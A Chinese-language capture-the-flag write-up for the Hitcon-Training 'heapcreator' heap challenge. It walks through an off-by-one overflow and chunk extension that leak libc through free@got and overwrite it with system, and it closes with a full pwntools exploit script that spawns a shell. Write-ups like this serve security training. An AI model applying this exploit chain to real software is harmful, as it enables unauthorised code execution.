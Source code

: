 ```yaml
---
title: heapcreator
categories: 
- Hitcon-Training
---
```

# heapcreator

## 前言

一道chunk extend的题，记录一下思路

## 程序逻辑

程序一共有几个功能，分别是新建chunk，编辑chunk，打印chunk的大小和内容，删除chunk。一般来说有输出函数可以利用其泄露Libc地址等

![main](./1.jpg)

create函数里使用一个全局变量heaparray存储node，heaparray[i]表示第i个node，每个Node为固定分配0x10大小的结构体，结构体第一个成员为size，第二个成员为addr，用来表示被分配的chunk的大小和地址。这里注意是先写入Node的值再获取chunk的内容，且Node的分配在chunk前。

![create](./2.jpg)

show函数输出分配chunk的大小和地址，输出前判断heaparray所在位置的值是否为空，由于被删除chunk的node也会被清空，因此这个避免了输出free之后chunk的内容

![show](./3.jpg)

edit函数存在null-byte-one漏洞，可以多写入一个字节

![edit](./4.jpg)

delete函数删除heap

![delete](./5.jpg)

## 漏洞利用

程序比较大的问题就是这个null-byte-one。我们之前学过chunk的使用存在空间复用，对于按次序分配的chunk1和chunk2，如果chunk1是分配过的chunk，那么chunk2的size部分可以表明chunk1已经被分配，故其free的时候不需要考虑和chunk1的合并，因此chunk2的prev_size成员没有意义，故这部分空间被chunk1使用，也就是说如果我们可以多写入一个字节的话实际上我们可以修改chunk2的size的最后一个字节，之前的写入'\x00'从而unlink就是利用这个原理

具体而言，我们先create两个chunk，第一个size为0x18，第二个为0x10这时程序的地址情况如下图所示，0x603000和0x603040为node地址，0x603030和0x603070是chunk的内容地址。
正常来说，由于对齐，0x18+0x10的head应该会得到大小为0x30的chunk，但是由于之前说的空间复用，0x20的chunk即可满足0x18内容要求。

![array](./6.jpg)

![heap](./7.jpg)

![heaps](./8.jpg)

使用edit我们可以覆盖掉node的头部的size的部分，现在考虑一下我们的需求，首先是泄露libc地址，这个地址如果考虑利用show泄露的话，我们需要在node的内容里填上用过的函数地址，但是node的内容是malloc得到的地址，我们之前用过doubel free修改被释放空闲块的fd的方式诱使分配我们构造的fake chunk，这里不存在这样的利用机会，需要换个思路，如先malloc正常的地址，但是我们使用edit函数修改node的值，这就是chunk extend的目的。
具体地，我们按开始的方式edit(chunk0)来修改node1的size为0x41，之后free(chunk1)。create()开始的malloc的node大小为0x20，而刚刚free的chunk1的大小也是0x20，因此新的node1实际上为之前free的chunk1，再malloc(30)的时候，由于我们修改了前面的size，这次malloc的chunk1就是之前释放的node1，但是不巧的是这里的新chunk1大小为0x41,已经可以覆写新node1，我们修改Node1的内容为free@got，泄露地址，再edit将free@got改成system@plt，把chunk0的内容预先设置为'/bin/sh\x00'，free(chunk0)即可调用system('/bin/sh')

## exp.py

```py
#coding=utf-8
from pwn import *
debug = 0
context.update(arch='amd64',os='linux',log_level="DEBUG")
context.terminal = ['tmux','split','-h']
p = process('./heapcreator')
elf = ELF('./heapcreator')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
if debug:
    gdb.attach(p)

def Create(size,content):
    p.recvuntil('Your choice :')
    p.sendline('1')
    p.recvuntil('Size of Heap : ')
    p.sendline(str(size))
    p.recvuntil('Content of heap:')
    p.send(content)

def Edit(index,content):
    p.recvuntil('Your choice :')
    p.sendline('2')
    p.recvuntil('Index :')
    p.sendline(str(index))
    p.recvuntil('Content of heap : ')
    p.send(content)

def Show(index):
    p.recvuntil('Your choice :')
    p.sendline('3')
    p.recvuntil('Index :')
    p.sendline(str(index))

def Delete(index):
    p.recvuntil('Your choice :')
    p.sendline('4')
    p.recvuntil('Index :')
    p.sendline(str(index))

def Exit():
    p.recvuntil('Your choice :')
    p.sendline('5')

## leak libc
Create(0x18,'a'*4)#idx0
Create(0x10,'a'*4)#idx1
Edit(0,'/bin/sh\x00'+'a'*0x10+'\x41')#hack the size
Delete(1)
free_got = elf.got['free']
Create(0x30,p64(0)*4+p64(0x30)+p64(free_got))
Show(1)
p.recvuntil('Content : ')
free_addr = u64(p.recvline().strip('\n').ljust(8,'\x00'))
libc_base = free_addr - libc.symbols['free']

log.success('libc base => ' + hex(libc_base))
system_addr = libc_base + libc.symbols['system']
## get shell
Edit(1,p64(system_addr))
## trigger 
Delete(0)

p.interactive()
```
